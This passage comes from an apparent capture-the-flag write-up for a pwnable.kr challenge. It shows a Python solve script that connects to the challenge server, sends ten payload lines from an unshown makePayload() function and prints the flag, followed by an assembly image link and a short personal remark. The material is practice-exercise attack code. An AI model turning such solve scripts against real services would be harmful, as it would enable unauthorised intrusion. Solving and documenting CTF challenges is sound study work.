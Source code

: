 ```python

def main():
    r = remote("pwnable.kr", 9022)
    payload = makePayload()
    print(payload)
    r.recvlines(10)
    for i in range(10):
        r.recvuntil(b": ")
        r.sendline(payload[i])
    r.recvuntil(b"flag : ")
    print("flag:", r.recv().decode("utf-8"))

if __name__ == "__main__":
    main()
```

### asm

![image-20220722152930746](assets/image-20220722152930746.png)

I am exciting.Because I close to be rookiss.
